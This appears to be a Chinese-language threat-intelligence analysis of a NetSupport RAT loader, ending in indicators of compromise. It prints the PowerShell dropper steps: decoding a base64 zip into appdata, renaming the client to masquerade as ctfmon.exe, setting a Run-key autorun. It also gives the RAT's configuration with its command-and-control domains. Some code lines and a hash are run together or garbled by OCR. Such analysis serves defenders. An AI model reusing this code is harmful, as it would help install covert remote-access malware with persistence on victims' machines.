 设置 rat clientname 并删除 temp 中的所有 ps1 文件以进行清理:

```
$clientname=’ctfmon’+’.exe’remove-item $env:TEMP\*.ps1
```

将 zip 文件写入 appdata:

```
$lit=”$fpath\$randf”+”.zip”$gr = [System.Convert]::FromBase64String($nfuyrgg1)Set-Content -Path “$lit” -Value $gr -Encoding Byte
```

解压缩它，然后清理 zip 文件:

```
cd $fpathexpand-archive “$lit” “./”remove-item “$lit”
```

将 rat 客户端重命名为 ctfmon.exe

```
rename-item “client32.exe” “$clientname”
```

解码注册表项:

```
$reg = oghygb4 “Jik2MF07PQ0TERAGHAcpKA4EHA0GCgETMjUcCwMIGREpJhIVHAcbETECHBEcCgk7PBcb” “z47gha”Decoded shows that it is for setting up a autorun key:bytearray(b’HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Run’)
```

设置运行键并启动程序:

```
new-ItemProperty -Path “$reg” -Name “ctfmon_” -Value “$fpath\$clientname”start-process “$fpath\$clientname”
```

文件名:DOo0gd4h.zip

hash:82 ddf 784507 fffbbbcca 749 a 687990345041 c 6 c 6 CB 5 f 4d 768 ee 4136 B3 B4 F4 f 03

这是经过 XOR 解码的 NetSupport RAT 包，客户端配置:

```
[HTTP]
GatewayAddress=sjvuvja.com:443
SecondaryGateway=nsncasicuasyca831cs3vvz.cn:443
GSK=FK:O?HDE9C>ICGHM=FBKFL;E@NFA:I
```

# IOCs

XLL 装载机:

```
9d8d289dd7fe149e89152983e40b2c1031e0dba3de9d89513163068bfb27a314
ccc0204486cbf8b6db43711ddf8d847cfc15d5f713c60b53c461c4e4eeeb1a4f
abf625d2b1f5f0eb5149fa32ab6e81d148c7316ccb03da2b3db29c964a0cffe7
8b7ece2a8678eef68c30332c283abcac6518732bf75eb19418516c18b361fafd
617c331b65e0d26e1e64a04f06555891e719b578fd2bdc41065458176821f0c1
```
